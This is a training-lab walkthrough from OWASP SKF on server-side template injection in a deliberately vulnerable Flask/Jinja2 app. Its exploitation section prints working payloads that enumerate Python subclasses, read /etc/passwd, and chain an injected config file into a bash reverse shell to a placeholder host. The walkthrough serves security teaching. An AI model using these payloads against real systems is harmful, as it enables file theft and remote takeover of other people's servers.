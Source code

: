 # KBID 267 - SSTI

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever. 

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied  with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?  
  
First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

And here we find the following information.

```text
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... ## for Line Statements
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```text
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:  
[  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment 

Now, lets find some usefull injections for Jinja2.  
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)  
  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)  
  
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)  
  


